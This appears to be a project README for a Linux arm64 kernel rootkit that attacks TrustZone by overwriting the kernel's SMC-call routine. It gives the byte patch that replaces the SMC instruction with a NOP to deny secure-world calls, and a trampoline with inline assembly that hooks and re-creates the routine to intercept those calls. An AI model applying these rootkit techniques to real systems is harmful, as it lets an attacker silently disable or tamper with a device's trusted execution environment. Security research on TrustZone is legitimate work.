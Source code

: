 # alpha
alpha is a simple kernel rootkit (Linux arm64) to attack the TrustZone. He erases the smc_handle function of the kernel to hook calls to the SMC instruction. It has been tested with OP-TEE but should work with any other TrustZone implementation.

### __arm_smccc_smc (arch/arm64/kernel/smccc-call.S)   
   
```   
   smc   #0
   ldr   x4, [sp]
   stp   x0, x1, [x4, #ARM_SMCCC_RES_X0_OFFS]
   stp   x2, x3, [x4, #ARM_SMCCC_RES_X2_OFFS]
   ldr   x4, [sp, #8]
   cbz   x4, 1f /* no quirk structure */
   ldr   x9, [x4, #ARM_SMCCC_QUIRK_ID_OFFS]
   cmp   x9, #ARM_SMCCC_QUIRK_QCOM_A6
   b.ne  1f
   str   x6, [x4, ARM_SMCCC_QUIRK_STATE_OFFS]
   ret
```   
   
### DoS (Denial of Service)   
   
It's the easiest way to avoid SMC call. Replace the first instruction of the function:   
```   
03 00 00 d4     smc   #0x0   
```   

With the following instruction:   
```   
d5 03 20 1f     nop      
```   

### MITM (Man In The Middle)    

The purpose of this attack is to insert our routine function in __arm_smccc_smc to filter the SMC call. First step is to jump to our hook function:    
```
   ldr   x8, .+8
   br    x8
   .dword [hook_address]
```

Next, the hook function have to manage the register to be able to continue to the SMC call. We have to re-write the routine that has been erased and put it at the end of our hook function:    
```
   __asm__( "smc #0;"
            "ldr x4, [sp];"
            "stp x0, x1, [x4];"
            "stp x2, x3, [x4,#16];"
            "ldr x4, [sp,#8];"
            "cbz x4, 0x00000028;"
            "ldr x9, [x4];"
            "cmp x9, #0x1;"
            "b.ne 0x00000028;"
            "str x6, [x4,#8];"
            "ret;");
```

### References   

http://infocenter.arm.com/help/topic/com.arm.doc.den0028b/ARM_DEN0028B_SMC_Calling_Convention.pdf   
https://github.com/torvalds/linux/blob/master/include/linux/arm-smccc.h   
https://github.com/torvalds/linux/blob/master/arch/arm64/kernel/smccc-call.S   
